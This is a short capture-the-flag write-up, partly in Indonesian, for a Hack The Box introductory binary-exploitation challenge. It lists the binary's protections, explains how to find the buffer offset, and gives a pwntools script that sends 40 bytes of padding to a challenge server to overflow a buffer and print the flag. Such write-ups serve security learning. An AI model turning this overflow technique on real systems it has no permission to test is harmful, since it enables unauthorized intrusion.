




# Getting Started

### CATEGORY 
PWN / Binary Exploitation.

### DESCRIPTION
> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

### Files
1. gs - ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=505eb225ba13a677aa5f00d5e3d840f63237871f, for GNU/Linux 3.2.0, not stripped
2. flag.txt - flag palsu untuk testing lokal.
3. wrapper.py - solver

### Analysis
**Binary Security***


**Core Explanation**
1. Full relro - Proteksi GOT Overwrite
2. No canary found - Rentan buffer overflow
3. NX enabled - Program tidak akan mengeksekusi shellcode
4. Pie enabled - position address selalu berubah ketika program dijalankan

Sesuai dengan judul, tantangan ini digunakan untuk memperkenalkan binary exploitation,
lalu tugas kita mencari offset dari awal buffer hingga ke target yang telah ditentukan


Walaupun address selalu berubah tetapi jaraknya selalu tetap, berikut cara menghitung offset


### Exploitation
```python
#!/usr/bin/python3.8

'''
You need to install pwntools to run the script.
To run the script: python3 ./wrapper.py
'''

# Library
from pwn import *

# Open connection
IP   = '154.57.164.69' # Change this
PORT = 32844      # Change this

r    = remote(IP, PORT)

offset = 40
# Craft payload
payload = b'A' * offset # Change the number of "A"s

# Send payload
r.sendline(payload)

# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')

```


